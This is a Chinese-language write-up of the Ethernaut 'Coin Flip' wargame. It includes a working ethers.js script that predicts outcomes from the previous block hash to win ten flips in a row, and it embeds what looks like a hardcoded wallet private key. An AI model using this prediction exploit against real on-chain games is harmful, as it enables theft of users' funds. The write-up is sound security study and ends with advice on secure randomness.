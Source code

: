 ```yaml
---
title: Ethernaut - Coin Flip（随机数）
categories: [Ethernaut]
tags: [以太坊, 智能合约, Ethernaut]
date: 2024-12-21
---
```


猜硬币游戏。

使用心灵感应的能力，十次猜对硬币正反即可通过233

<!--more-->

提示是也许要离开控制台进行操作。比如写一个js脚本？



代码已经可见随机数的计算过程了，通过

```
uint256 blockValue = uint256(blockhash(block.number - 1));
```

来获取一个随机数。即计算前一个区块的哈希。



## 解决方案1

使用js写一个脚本：

```js
const { ethers } = require("ethers");

function getConfig(contractAddress) {
  const provider = new ethers.JsonRpcProvider(`https://sepolia.infura.io/v3/<your-api-key>`);
  const wallet = new ethers.Wallet("65addf4028c7ad097b5624235ca335aa6518629e5bd709975a7fea5c00203e2f", provider);

  const abi = [
    {
      inputs: [],
      stateMutability: "nonpayable",
      type: "constructor",
    },
    {
      inputs: [],
      name: "consecutiveWins",
      outputs: [
        {
          internalType: "uint256",
          name: "",
          type: "uint256",
        },
      ],
      stateMutability: "view",
      type: "function",
    },
    {
      inputs: [
        {
          internalType: "bool",
          name: "_guess",
          type: "bool",
        },
      ],
      name: "flip",
      outputs: [
        {
          internalType: "bool",
          name: "",
          type: "bool",
        },
      ],
      stateMutability: "nonpayable",
      type: "function",
    },
  ];

  const contract = new ethers.Contract(contractAddress, abi, wallet);
  return { provider, wallet, contract };
}

const CONTRACT_ADDRESS = "0xd21595e895afFB477036a5674Fe717B073FC12bF"; // 替换为你的合约地址
const FACTOR = ethers.toBigInt("57896044618658097711785492504343953926634992332820282019728792003956564819968");
async function main() {
  const { provider, wallet, contract } = getConfig(CONTRACT_ADDRESS);

  let lastBlockNumber = 0
  while (true) {
    const blockNumber = await provider.getBlockNumber();
    if (blockNumber === lastBlockNumber) {
      continue;
    }
    lastBlockNumber = blockNumber;
    const blockHash = (await provider.getBlock(blockNumber)).hash;
    const blockValue = ethers.toBigInt(blockHash);
    console.log("blockValue:", blockValue);

    let coinFlip = blockValue / FACTOR;
    let side = coinFlip == 1 ? true : false;
    console.log("side:", side);

    try {
      const tx = await contract.flip(side);
      console.log("tx:", tx.hash);
      await tx.wait();
      console.log("tx mined");
    } catch (e) {
      console.log("tx failed");
      continue;
    }

    const result = await contract.consecutiveWins();
    console.log("consecutiveWins:", result.toString());
    console.log("===================================");

    if (result === "10") {
      console.log("Congratulations! You've won 10 times in a row!");
      break;
    }
  }
}

main();
```

但是，我试了两次，都是连续9次猜对之后出问题？

我感觉可能有点时间问题，比如我猜出答案到我发送tx，中间可能隔了两个区块之类的，这样就会出问题了。

一个暴力的解决方法：加钱，给更多gasPrice增加打包速度，保证不要超过两个区块，还算有效2333

```js
const tx = await contract.flip(side, {
	gasPrice: ethers.parseUnits("50", "gwei"),
});
```

<img src="./04-Coin-Flip/image-20241221212948232.png" alt="image-20241221212948232" style="zoom:50%;" />



## 解决方案2

GPT提供了另一个思路，写一个攻击智能合约，在攻击合约里调用这个合约，这可以保证他们的blocknumber一样，解决了时序问题。





# 总结

Solidity没提供原生的随机数方法。生成随机数的方法都是可见的。

也可以通过修改时间戳、blockhash等方式，让随机结果趋于对自己有利。



一些推荐随机数方案：

- 使用 **Chainlink VRF**：最安全可靠，但需要支付 LINK 费用。
- **RANDAO** 或其他去中心化方案：适合对去中心化和安全性要求高的场景。
- **Oraclize**：适合简单随机数生成，但依赖外部服务。
